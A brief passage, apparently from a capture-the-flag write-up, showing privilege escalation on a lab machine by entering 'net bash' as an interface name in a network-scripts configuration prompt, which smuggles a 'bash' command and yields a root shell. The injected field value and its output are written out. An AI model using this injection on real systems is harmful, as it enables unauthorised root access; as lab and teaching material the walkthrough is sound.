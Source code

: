 We execute `bash` insteod of the `id` command and we are root.

```bash
interface NAME:
net bash
interface PROXY_METHOD:

wrong input, try again
interface PROXY_METHOD:
s
interface BROWSER_ONLY:
s
interface BOOTPROTO:
s
[root@networked network-scripts]# whoami
root
```